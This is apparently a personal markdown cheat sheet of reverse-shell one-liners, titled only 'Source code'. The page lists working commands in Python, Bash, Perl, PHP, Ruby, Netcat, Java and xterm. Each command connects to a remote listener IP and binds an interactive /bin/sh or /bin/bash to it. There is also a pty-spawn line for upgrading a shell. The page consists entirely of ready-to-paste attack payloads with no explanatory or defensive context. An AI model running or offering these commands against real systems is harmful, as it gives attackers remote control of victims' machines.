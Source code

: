 ```yaml
---
title: ""
date: 2020-07-22T22:51:31-03:00
draft: false
---
```


## Python 
=====================

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


## Bash 
=====================
```
bash -i >& /dev/tcp/192.168.19.68/4455 0>&1
```

## PERL 
=====================
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PHP 
=====================
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby 
=====================
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat 
=====================
```
nc -e /bin/sh 10.0.0.1 1234


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java 
=====================
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()[Untested submission from anonymous reader]
```

## xterm 
=====================
```
xterm -display 10.0.0.1:1


Xnest :1


xhost +targetip
```
